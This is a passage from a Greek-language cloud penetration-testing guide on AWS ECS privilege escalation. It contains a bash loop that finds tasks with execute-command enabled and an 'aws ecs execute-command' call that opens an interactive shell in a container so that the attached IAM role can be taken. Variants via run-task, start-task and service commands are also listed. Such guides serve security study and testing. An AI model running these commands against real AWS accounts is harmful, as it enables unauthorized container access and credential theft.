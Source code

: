 Ένας επιτιθέμενος με το **`ecs:ExecuteCommand`, `ecs:DescribeTasks`** μπορεί να **εκτελέσει εντολές** μέσα σε ένα τρέχον κοντέινερ και να εξάγει τον IAM ρόλο που είναι συνημμένος σε αυτό (χρειάζεστε τις άδειες περιγραφής γιατί είναι απαραίτητο να εκτελέσετε το `aws ecs execute-command`).\
Ωστόσο, για να το κάνετε αυτό, η κοντέινερ πρέπει να εκτελεί τον **ExecuteCommand agent** (ο οποίος από προεπιλογή δεν είναι).

Επομένως, ο επιτιθέμενος θα μπορούσε να προσπαθήσει να:

* **Προσπαθήσει να εκτελέσει μια εντολή** σε κάθε τρέχον κοντέινερ
```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
echo "Cluster $cluster"
for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
echo "  Task $task"
# If true, it's your lucky day
aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
--command "sh" \
--cluster "$CLUSTER_ARN" \
--task "$TASK_ARN"
```
* Αν έχει **`ecs:RunTask`**, εκτελέστε μια εργασία με `aws ecs run-task --enable-execute-command [...]`
* Αν έχει **`ecs:StartTask`**, εκτελέστε μια εργασία με `aws ecs start-task --enable-execute-command [...]`
* Αν έχει **`ecs:CreateService`**, δημιουργήστε μια υπηρεσία με `aws ecs create-service --enable-execute-command [...]`
* Αν έχει **`ecs:UpdateService`**, ενημερώστε μια υπηρεσία με `aws ecs update-service --enable-execute-command [...]`

Μπορείτε να βρείτε **παραδείγματα αυτών των επιλογών** στις **προηγούμενες ενότητες privesc ECS**.

**Πιθανές Επιπτώσεις:** Privesc σε διαφορετικό ρόλο που συνδέεται με τα κοντέινερ.

### `ssm:StartSession`

Ελέγξτε στη **σελίδα privesc ssm** πώς μπορείτε να εκμεταλλευτείτε αυτή την άδεια για **privesc σε ECS**:

{% content-ref url="aws-ssm-privesc.md" %}
[aws-ssm-privesc.md](aws-ssm-privesc.md)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

Ελέγξτε στη **σελίδα privesc ec2** πώς μπορείτε να εκμεταλλευτείτε αυτές τις άδειες για **privesc σε ECS**:

{% content-ref url="aws-ec2-privesc.md" %}
[aws-ec2-privesc.md](aws-ec2-privesc.md)
{% endcontent-ref %}
